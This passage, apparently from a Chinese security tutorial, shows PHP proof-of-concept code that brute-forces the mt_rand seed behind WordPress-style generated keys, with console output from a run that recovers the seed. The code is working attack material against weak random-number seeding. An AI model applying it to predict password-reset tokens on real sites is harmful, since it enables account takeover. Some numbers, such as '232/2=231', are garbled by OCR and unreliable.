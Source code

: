 <?php
mt_srand(4); 
$a = mt_rand(); 
mt_srand(5); 
$b = mt_rand();
print $a."\n".$b;
?>
通过上面的代码发现$a==$b，所以我们循环的次数为232/2=231次。我们看如下代码：

<?php
//base on http://www.milw0rm.com/exploits/6421 
//test on php 5.2.0

define('BUGGY', 1); //上面代码$a==$b时候定义BUGGY=1

$key = wp_generate_password(20, false);
echo $key."\n";
$seed = getseed($key);
print $seed."\n"; 

mt_srand($seed);
$pass = wp_generate_password(20, false);
echo $pass."\n";        
        
function wp_generate_password($length = 12, $special_chars = true) {
        $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
        if ( $special_chars )
                $chars .= '!@#$%^&*()';

        $password = '';
        for ( $i = 0; $i < $length; $i++ )
                $password .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
        return $password;
} 

function getseed($resetkey) {
        $max = pow(2,(32-BUGGY));
        for($x=0;$x<=$max;$x++) {
                $seed = BUGGY ? ($x << 1) + 1 : $x; 
                mt_srand($seed);
                $testkey = wp_generate_password(20,false);
                if($testkey==$resetkey) { echo "o\n"; return $seed; }

                if(!($x % 10000)) echo $x / 10000;
        }
        echo "\n";
        return false;
}
?>
运行结果如下：

php5>php rand.php
M8pzpjwCrvVt3oobAaOr
0123456789101112131415161718192021222324252627282930313233343536373839404142434
445464748495051525354555657585960616263646566676869
7071727374757677787980818283848586878889909192939495969798991001011021031041051
061071081091101111121131141151161171181191201211221
2312412512612712812913013113213313413513613713813914014114214314414514614714814
915015115215315415515615715815916016116216316416516
6167168169170171172173174175176177178179180181182183184185186187188189190191192
193194195196197198199200201202203204205206207208209
2102112122132142152162172182192202212222232242252262272282292302312322332342352
362372382392402412422432442452462472482492502512522
..............01062110622106231062410625106261062710628106291063010631106321063
3o
70693
pjwCrvVt3oobAaOr
当10634次时候我们得到了结果。